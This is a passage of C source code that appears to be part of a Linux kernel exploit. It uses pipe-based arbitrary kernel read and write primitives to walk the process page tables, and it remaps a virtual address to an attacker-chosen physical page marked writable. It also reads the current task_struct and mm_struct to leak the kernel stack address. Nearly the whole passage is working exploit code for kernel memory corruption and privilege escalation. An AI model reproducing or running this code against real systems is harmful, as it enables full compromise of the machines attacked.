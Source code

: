 ```c
    size_t pud_addr, pmd_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    return (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
}

void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    buf[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; /* mark it writable */
    arbitrary_write_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf,
                            0xff0);
}

void pgd_vaddr_resolve(void)
{
    puts("[*] Reading current task_struct...");

    /* read current task_struct */
    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    stack_addr = tsk_buf[4];
    mm_struct_addr = tsk_buf[292];

    printf("\033[34m\033[1m[*] kernel stack's addr:\033[0m0x%lx\n",stack_addr);
    printf("\033[34m\033[1m[*] mm_struct's addr:\033[0m0x%lx\n",mm_struct_addr);

    mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);

    printf("\033[34m\033[1m[*] mm_struct's page:\033[0m0x%lx\n",mm_struct_page);

    /* read mm_struct */
    arbitrary_read_by_pipe((struct page*) mm_struct_page, buf);
    arbitrary_read_by_pipe((struct page*) (mm_struct_page+0x40), &buf[512]);

    mm_struct_buf = (size_t*) ((size_t) buf + (mm_struct_addr & 0xfff));

```